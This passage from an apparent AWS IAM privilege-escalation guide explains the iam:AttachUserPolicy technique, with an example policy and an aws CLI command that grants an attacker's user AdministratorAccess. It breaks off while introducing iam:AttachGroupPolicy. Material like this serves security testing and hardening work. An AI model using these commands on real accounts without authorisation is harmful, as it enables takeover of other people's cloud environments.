 The attacker can now login to the console as the VulnAdmin user with the password that they set for the account.

## 07 - iam:AttachUserPolicy

### Description
Users with the iam:AttachUserPolicy can attach managed policies to user accounts, potentially allowing them to attach policies with permissions that they don't currently have to their own account.

### Requirements
The user is allowed to attach managed policies to their own account.

### Example
In this example, our attacker is part of a single group. The group has one permission, which allows iam:AttachUserPolicy on all users:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "VisualEditor0",
      "Effect": "Allow",
      "Action": "iam:AttachUserPolicy",
      "Resource": "*"
    }
  ]
}
```

The attacker can issue the following command to attach the AWS managed AdministratorAccess policy to their user account:

```bash
➜ aws iam attach-user-policy --user-name privesc_test --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --profile privesc
```

The attacker now has administrator access to the AWS account.

## 08 - iam:AttachGroupPolicy

### Description
Users with the iam:AttachGroupPolicy can attach managed policies to groups, potentially allowing them to attach policies with permissions that they don't currently have to a group that they are part of.

### Requirements
The user is allowed to attach managed policies to a group that they are part of.
### Example
In this example, our attacker is part of a single group. The group has one permission, which allows iam:AttachGroupPolicy on all groups:
